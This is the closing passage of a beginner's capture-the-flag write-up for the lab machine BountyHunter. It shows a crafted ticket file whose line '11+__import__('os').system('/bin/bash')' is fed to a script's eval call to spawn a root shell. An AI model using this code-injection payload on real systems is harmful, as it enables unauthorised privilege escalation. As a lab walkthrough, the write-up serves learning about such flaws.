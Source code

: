 Everything in fourth line after `**` gets into eval function. In our case, it will be `11+__import__('os').system('/bin/bash')`

I ended up with this:
```
# Skytrain Inc
## Ticket to 
__Ticket Code:___
**11+__import__('os').system('/bin/bash')
```

Let's run the script and try it out.

![](https://i.imgur.com/OnpN6xp.png)

Rooted! 🔥

## Conclusion

BountyHunter is the first active machine I owned, and this is my very first writeup. I really enjoyed this box because it's beginner friendly, I was already familiar with xxe attack and it made me feel like a true 1337. 👨‍💻
